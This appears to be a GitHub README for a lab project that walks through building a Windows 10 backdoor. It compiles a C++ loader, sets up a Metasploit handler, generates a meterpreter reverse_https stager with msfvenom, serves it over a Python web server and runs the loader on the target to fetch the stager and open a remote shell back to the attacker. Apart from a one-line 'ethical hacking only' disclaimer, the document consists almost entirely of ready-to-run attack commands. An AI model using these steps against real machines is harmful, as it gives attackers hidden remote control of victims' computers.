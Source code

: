 # Cyber Security
Cyber Security Lab Experiences by Fabio Felgueiras

Use this for ethical hacking only.

In this example we will use a Kali Linux 2023.2 and Windows 10

Tools used:
   - OpenSSL To create the certificate
   - msfConsole to create the listner
   - msfvenom to create the payload
   - python to create the http server
   - c++ to create the windows .exe 


Windows 10 Backdoor Creation

In Kali >

1- Download

    git clone https://github.com/Blive77/cybersecurity/
    cd cybersecurity
    
2- Compile

    x86_64-w64-mingw32-g++ --static -o backDoorTest.exe backdoor.cpp -fpermissive -lws2_32
      
3- Create custom SSL/TLS certificate 
    https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-paranoid-mode.html

    openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 \
    -subj "/C=US/ST=Texas/L=Austin/O=Development/CN=www.example.com" \
    -keyout www.example.com.key \
    -out www.example.com.crt && \
    cat www.example.com.key  www.example.com.crt > www.example.com.pem && \
    rm -f www.example.com.key  www.example.com.crt
    
      
4- Config the msfconsole Listner

    msfconsole
    use exploit/multi/handler
    set payload windows/x64/meterpreter/reverse_https
    set LHOST 0.0.0.0
    set LPORT 3333
    set HandlerSSLCert www.example.com.pem
    set StagerVerifySSLCert true
    set HandlerSSLCert /home/kali/cybersecurity/www.example.com.pem
    exploit
   
    
5- Create the Payload with msfvenom in Kali linux

   In my case:
   - Host IP= 192.168.235.132  
   - Host Port= 3333
   - Path To cert file= /home/kali/cybersecurity/www.example.com.pem
      
    msfvenom -p windows/x64/meterpreter/reverse_https lhost=(Host IP) lport=(Host Port) HandlerSSLCert=(Path To cert file) StagerVerifySSLCert=true -f raw > load.bin
    
   
6- Setup the http webserver for Payload download (while in cybersecurity folder)

    python -m http.server
    
In Windows >
    
1- Execute the File created in point (2) backDoorTest.exe
    
    backDoorTest.exe ( can be execute with paramters IP, Port and PayLoad File ) 
 
